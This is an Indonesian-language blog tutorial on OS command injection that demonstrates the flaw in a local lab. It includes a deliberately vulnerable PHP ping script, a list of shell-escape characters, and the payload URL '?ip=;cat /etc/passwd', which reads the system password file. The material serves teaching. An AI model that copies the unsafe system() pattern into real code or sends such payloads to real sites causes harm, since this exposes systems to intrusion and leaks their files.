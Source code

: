 ```yaml
---
title: os command injection 
date: 2022-09-01
author: Ardho Ainullah
tags: ["exploitation"]
---
```

{{< raw >}}
<img src="/images/cuteheker.jpeg">
{{< /raw >}}

<br>
<br>


os command injection biasanya terjadi ketika seorang web developer keliru
dalam mengatur penerimaan input didalam situsnya. biasanya terjadi ketika
form input yang dibuat menggunakan fungsi seperti `exec()`, `system()`, dll.
tergantung fungsi tersebut berasal dari bahasa pemogramman apa. jika python
biasanya menggunakan `os.system()` atau `eval()`, etc.

tentu saja ini jadi sesuatu yang sangat berbahaya dikarenakan attacker dapat
memasukan perintah berbahaya kedalam shell sistem operasi yang ada disitus tersebut.

>Serangan command injection bisa terjadi ketika sebuah aplikasi 
>(forms, cookies, HTTP headers, dll) bisa menjalankan perintah yang 
>tidak aman dari inputan user ke sistem shell. 
{{< raw >}}
<a href="https://crashtest-security.com/command-injection/">crashtest security</a>
{{< /raw >}}

menurut crashtest security, os command injection tidak hanya bisa terjadi
di forms melainkan bisa saja ditempat lain seperti diatas.

# demonstrasi

contoh kode php yang rentan dengan os command injection karena ketiadaan
validasi input ataupun proses filtering.

```shell 
<?php
$ip = $_GET['ip'];
$cmd = system('ping '.$ip); 

echo $cmd
?>
```

- buat file `ping.php` & jalankan diterminal kalian

`$ php -S 127.0.0.1:8000 -t .`


kunjungi dan cobalah masukan input seperti ini

**http://127.0.0.1:8000/ping.php?ip=cat%20/etc/passwd**

maka jika dibrowser saya, ini tidak menghasilkan apa-apa. dikarenakan perintah
**cat /etc/passwd** masih dianggap sebagai argumen untuk ping.

```shell
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41126 Accepted
ping: unknown host cat
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 [200]: GET /ping.php?ip=cat%20/etc/passwd
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 Closing
```

bisa dilihat disana ada pesan **uknown host cat**. yang menandakan perintah cat 
kita dianggap destination dari ping. nah kalian bisa mencoba nya lagi
dengan membatalkan perintah ping dengan shell escapes.

```
;
|
||
<
&
&&
$()
```


let's try again


**http://127.0.0.1:8000/ping.php?ip=;cat /etc/passwd**



maka kalian bisa melihat bahwa disini kita berhasil untuk melakukan perintah cat
terhadap file passwd.

{{< raw >}}
<img src="/images/oci.jpg">
{{< /raw >}}

btw saya ngejalanin file php nya di termux, jadi output dari **/etc/passwd** nya
agak aneh hhe.




# other references
beberapa referensi lain yang membahas command injection lebih detail.

- command injection 
https://book.hacktricks.xyz/pentesting-web/command-injection
